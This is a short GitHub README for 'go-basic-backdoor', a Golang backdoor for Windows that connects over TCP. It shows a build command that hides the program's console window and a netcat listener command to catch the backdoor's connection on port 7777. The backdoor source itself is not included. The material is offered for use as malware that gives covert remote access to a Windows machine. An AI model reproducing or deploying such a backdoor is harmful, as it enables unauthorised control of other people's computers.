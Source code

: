 # go-basic-backdoor

This is a basic golang backdoor for windows over tcp in 24 line 

# Compilation
```
go build -ldflags -H=windowsgui backdoor.go__
```
# Start netcat listener and execute it
```
nc -L 0.0.0.0 -p 7777__
```
